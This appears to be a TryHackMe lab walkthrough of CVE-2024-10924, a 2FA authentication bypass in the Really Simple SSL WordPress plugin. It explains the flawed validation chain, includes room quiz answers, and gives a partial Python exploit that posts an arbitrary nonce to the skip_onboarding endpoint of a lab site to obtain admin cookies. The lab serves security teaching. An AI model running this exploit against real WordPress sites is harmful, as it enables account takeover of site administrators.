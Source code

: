 However, this function is called even if authentication fails. Therefore, the attacker is seamlessly redirected to the desired page, bypassing the authentication mechanism. Such instances are the first of their kind, and normally, such security flaws have never been seen in a renowned plugin.

It is important to note that the vulnerability only works for the accounts against whom 2FA is **enabled**. The chain of methods reveals how improper validation leads to a critical security flaw:

* In **skip\_onboarding**: The return value from `check_login_and_get_user` is not validated, allowing a **null** response to be treated as a valid user.
    
* In **check\_login\_and\_get\_user**: While it correctly identifies invalid credentials, it relies on the caller to handle its return value, which does not happen.
    
* In **authenticate\_and\_redirect**: It blindly redirects users based on the parameters passed to it, assuming they have been properly authenticated.
    

Now that we understand the concept behind the vulnerability, let's exploit it in the next task.

Answer the questions below

What is the class name that holds the important three functions discussed in the task?

`Rsssl_Two_Factor_On_Board_Api`

What is the function name that accepts user\_id and login\_nonce as arguments and validates them?

`check_login_and_get_user`

In this task, we will learn how to exploit CVE-2024-10924. Exploiting of this vulnerability is straightforward and involves sending a crafted POST request to the vulnerable `/reallysimplessl/v1/two_fa/skip_onboarding` endpoint. From the previous task, we learned that the endpoint accepts three key parameters: the user's ID attempting to skip 2FA onboarding, a nonce value which is not validated correctly, and the URL to redirect the user after the operation.

![Exploiting wordpress admin panel through a POST call.](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1737010782706.svg align="left")

## Exploitation

In the attached VM, open the browser and visit the website [http://vulnerablewp.thm:8080/wp-admin](http://vulnerablewp.thm:8080/wp-admin). We will see that the website is protected through a login panel. Our goal is to retrieve credentials against a WordPress user admin with **user\_id** 1.

![Login panel in wordpress.](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1733302763679.png align="left")

Below is a simple Python script that sends a POST request to the vulnerable endpoint. This script extracts and displays the cookies in response to authenticate the user.

```python
import requests
import urllib.parse
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <user_id>")
    sys.exit(1)

user_id = sys.argv[1]

url = "http://vulnerablewp.thm:8080/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
data = {
    "user_id": int(user_id),  # User ID from the argument
    "login_nonce": "invalid_nonce",  # Arbitrary value
    "redirect_to": "/wp-admin/"  # Target redirection
}

# Sending the POST request
response = requests.post(url, json=data)

# Checking the response
```